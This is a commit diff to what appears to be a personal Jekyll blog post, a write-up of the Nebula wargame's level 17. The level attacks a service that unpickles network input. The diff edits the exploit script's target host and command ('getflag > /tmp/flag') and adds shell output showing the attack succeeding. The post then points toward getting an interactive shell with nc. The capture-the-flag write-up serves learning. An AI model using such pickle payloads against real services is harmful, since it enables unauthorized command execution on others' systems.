

Before and after one commit to n33m0/n33m0.github.io, a Jekyll site: the page built from _posts/2015-10-15-vulnerability_just_ahead.md, in a window 1280 px wide and 1400 px high, scrolled down 971 px. Shown: the top 1355 px of the window, without its empty margins (258-1003 px from the left). Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; some web fonts are replaced; comment, search, counter and statistics services are not loaded; before the commit the page ends 2246 px from its top, so only the background shows below that.

Commit message:
Nebula 17 adjustment

```diff
--- a/_posts/2015-10-15-vulnerability_just_ahead.md
+++ b/_posts/2015-10-15-vulnerability_just_ahead.md
@@ -23,7 +23,7 @@ import os
 import socket
 import cPickle
 
-TARGET_HOST = "192.168.1.3"
+TARGET_HOST = "0.0.0.0"
 TARGET_PORT = 10007
 TARGET_CMD = "getflag > /tmp/flag"
 
@@ -52,6 +52,12 @@ if __name__ == "__main__":
     main()
 {% endhighlight %}
 
+{% highlight sh linenos %}
+level17@nebula:~$ ./pwn.py && sleep 1 && cat /tmp/flag
+Accepted connection from 127.0.0.1:56737
+You have successfully executed getflag on a target account
+{% endhighlight %}
+
 Well, if smdb needs smth more than just string output evidence(e.g. simple interactive shell 。☆°⋆＼(- – )), then smdb could grab a chunk from nc man page:
 
 {% highlight sh linenos %}
```
